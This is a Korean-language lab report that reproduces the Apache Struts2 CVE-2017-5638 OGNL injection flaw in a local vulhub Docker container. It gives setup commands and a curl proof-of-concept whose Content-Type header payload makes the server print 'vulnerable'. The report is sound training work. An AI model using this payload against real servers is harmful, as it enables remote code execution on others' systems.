 CVE-2017-5638 (Apache Struts2 RCE) 실습 보고서

1. 개요
Apache Struts2의 Content-Type 필드 처리 취약점을 악용하여 원격 코드 실행(RCE)을 수행하는 취약점을 도커 환경에서 재현하였다.

2. 실습 환경
- Host OS: Windows 11
- Docker Version: 28.0.4
- Docker Compose Version: 2.34.0

3. 환경 구축 과정
3.1. 레포 클론 및 폴더 이동
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-045

3.2. 컨테이너 실행
docker compose up -d
(여기에 [컨테이너 띄운 캡처] 이미지를 삽입할 예정)

4. 취약점 공격 (PoC)
4.1. 공격 명령어
curl -v -H "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ctn=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#ctn.getWriter().println('vulnerable')).(#ctn.getWriter().flush())}" http://localhost:8080/struts2-showcase/upload.action

4.2. 공격 결과
vulnerable 출력 확인 
(여기에 curl 공격 성공 캡처 이미지 넣을 예정)

5. 결론
Apache Struts2의 Content-Type 필드 OGNL Injection 취약점을 통해 외부 입력값을 서버에서 코드로 실행할 수 있는 치명적인 보안 이슈를 실습을 통해 검증하였다.

6. 참고 자료
https://vulhub.org/#/environments/struts2/s2-045/
https://nvd.nist.gov/vuln/detail/CVE-2017-5638